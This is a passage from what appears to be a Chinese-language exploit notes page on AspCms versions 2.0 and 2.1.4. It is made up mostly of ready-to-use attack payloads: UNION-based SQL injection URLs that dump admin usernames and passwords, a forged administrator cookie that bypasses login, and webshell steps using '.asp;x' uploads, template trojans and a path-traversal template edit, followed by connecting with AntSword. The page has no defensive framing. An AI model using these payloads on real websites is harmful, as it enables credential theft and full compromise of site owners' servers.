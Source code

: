     这是爆 ID=1 的账户名，如果发现权限不够可以往后试 2,3,4………..

    # 爆密码
    http://www.xxx.com/plug/productbuy.asp?id=2+union+select+1,2,password,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37+from+AspCms_User+where+userid=1

    后台登录地址：/admin/login.asp

    后台拿 shell

    1. 直接上传`.asp;x`
    2. 系统配置信息
    3. 模版管理新建 `1.asp` 模板，内容写马的内容.
    ```

**AspCms2.1.4 GBK 版,未验证权限、且存在注入漏洞**
- POC | Payload | exp
    ```
    admin/_content/_About/AspCms_AboutEdit.asp
    ```
    ```
    http://www.xxx.com/admin/_content/_About/AspCms_AboutEdit.asp?id=19 and 1=2 union select 1,2,3,4,5,loginname,7,8,9,password,11,12,13,14,15,16,17,18,19,20,21,22,23,24 from aspcms_user where userid=1
    ```

**AspCms2.0未验证权限，且存在注入漏洞**
- POC | Payload | exp
    ```
    admin/_content/_About/AspCms_AboutEdit.asp?id=19
    ```
    - 表名：aspcms_user
    - 列名：loginname、password

    ```
    http://www.xxx.com/admin/_content/_About/AspCms_AboutEdit.asp?id=19 and 1=2 union select 1,2,3,4,5,loginname,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,password,25,26,27,28,29,30,31,32,33,34,35 from aspcms_user where userid=1
    ```

**Cookies 欺骗**
- POC | Payload | exp
    ```
    cookies:username=admin; ASPSESSIONIDAABTAACS=IHDJOJACOPKFEEENHHMJHKLG; LanguageAlias=cn; LanguagePath=%2F; languageID=1; adminId=1; adminName=admin; groupMenu=1%2C+70%2C+10%2C+11%2C+12%2C+13%2C+14%2C+20%2C+68%2C+15%2C+16%2C+17%2C+18%2C+3%2C+25%2C+57%2C+58%2C+59%2C+2%2C+21%2C+22%2C+23%2C+24%2C+4%2C+27%2C+28%2C+29%2C+5%2C+49%2C+52%2C+56%2C+30%2C+51%2C+53%2C+54%2C+55%2C+188%2C+67%2C+63%2C+190%2C+184%2C+86%2C+6%2C+32%2C+33%2C+34%2C+8%2C+37%2C+183%2C+38%2C+60%2C+9; GroupName=%B3%AC%BC%B6%B9%DC%C0%ED%D4%B1%D7%E9
    ```

**进入后台后GetShell**
- POC | Payload | exp
    所有版本存在后台编辑风格 可以修改任意文件，获取webshell就很简单了
    ```
    http://www.xxx.com/AspCms_TemplateEdit.asp?acttype=&filename=../../../index.asp
    ```
    插入`asp;x`文件蚁剑连接即可。

---